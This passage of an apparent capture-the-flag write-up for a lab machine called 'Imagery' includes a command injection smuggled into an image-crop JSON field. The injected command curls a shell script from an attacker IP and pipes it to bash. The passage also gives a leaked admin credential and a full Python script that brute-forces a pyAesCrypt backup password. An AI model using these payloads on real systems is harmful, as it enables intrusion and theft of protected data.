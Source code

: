 `{"imageId":"41d55ddd-6361-46a5-9b8c-a678791ef40d","transformType":"crop","params":{"x":"79; $(curl http://10.10.14.156:8000/shell.sh | bash) #","y":0,"width":638,"height":800}}` send this to gain shell.

By analyzing the source code of the admin bot we get this credential set:
`admin@imagery.htb:strongsandofbeach`

None of these yielded anything. Now in /var/backup there was a backup just chilling there. But it was encrypted with AES. So I downloaded it onto my machine and checked its filetype.

I got this

```bash
web_20250806_120723.zip.aes: AES encrypted data, version 2, created by "pyAesCrypt 6.1.1"
```

So with this data I got this script that bruteforces the AES password:

```python
#!/usr/bin/env python3
import pyAesCrypt
import sys
import os

if len(sys.argv) < 3:
    print("Usage: python try_wordlist_pyAesCrypt.py file.zip.aes wordlist.txt [outdir]")
    sys.exit(1)

encfile = sys.argv[1]
wordlist = sys.argv[2]
outdir = sys.argv[3] if len(sys.argv) > 3 else "attempt_out"
os.makedirs(outdir, exist_ok=True)

# chunk size used by pyAesCrypt (default value).
bufferSize = 64 * 1024

total = 0
with open(wordlist, "r", errors="ignore") as f:
    for line in f:
        pwd = line.rstrip("\n\r")
        if not pwd:
            continue
        total += 1
        if total % 1000 == 0:
            print(f"Attempt #{total}: '{pwd[:30]}'")
        outpath = os.path.join(outdir, "temp_decrypted_output")
        try:
            # pyAesCrypt.decryptFile throws ValueError on wrong password (or IntegrityError)
            pyAesCrypt.decryptFile(encfile, outpath, pwd, bufferSize)
            print()
            print("=== Password found! ===")
            print(pwd)
            print("Decrypted output saved to:", outpath)
            sys.exit(0)
        except (ValueError, Exception) as e:
            # Wrong password will generally raise ValueError / IntegrityError
            # Remove any incomplete file
            if os.path.exists(outpath):
                try:
                    os.remove(outpath)
                except:
                    pass
            # continue trying
            continue

print("Password NOT found in the provided wordlist.")
sys.exit(2)
```